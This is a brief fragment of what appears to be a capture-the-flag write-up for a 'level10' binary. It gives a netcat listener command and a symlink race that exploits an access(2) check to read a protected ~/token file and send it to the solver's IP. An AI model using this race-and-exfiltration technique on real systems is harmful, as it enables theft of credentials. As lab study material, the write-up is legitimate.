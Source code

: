 nc -klv 6969

./level10 /tmp/lol 192.168.122.237

`./level10` uses `access(2)` -> quickly create ok file & replace to symlink to `~/token`
